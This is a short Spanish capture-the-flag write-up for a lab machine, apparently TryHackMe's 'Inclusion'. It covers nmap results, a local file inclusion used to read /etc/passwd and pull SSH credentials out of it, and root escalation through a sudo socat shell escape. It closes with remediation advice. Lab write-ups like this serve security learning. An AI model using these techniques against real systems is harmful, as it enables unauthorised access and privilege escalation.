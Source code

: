 # Inclusion
Room sencillita para explotar un LFI

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```
## Enum
### HTTP

Vemos que los articulos se indexan mediante el nombre directo del archivo
```
http://10.10.30.43/article?name=lfiattack
```
Probamos a indexar algún archivo mas sensible como /etc/passwd
```
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
```
Usamos esas creds en el ssh y pa dentro

## Privesc
```
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Y simplemente ejecutamos 
```
sudo socat stdin exec:/bin/sh
```
Y listo, ya somos root

# Analisís de la intrusión
### LFI 
El codigo utilizado permite indexar archivos de manera arbitraria 
### Insecure password mangment
Por algun motivo las cred de falconfeast estan en el passwd 
### Privileged socat execution
El usuario falconfeast puede utilizar socat como root, lo cual nos permitio elevar privilegios a root

# Soluciones
### LFI 
Se podría corregir el codigo para evitar la lectura de archivos,asi como tmb seria recomendable limitar el acceso a ciertos archivos a www-data mediante el uso de AppArmor
### Privileged socat execution
Permitir a un usuario regular ejecutar socat como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto
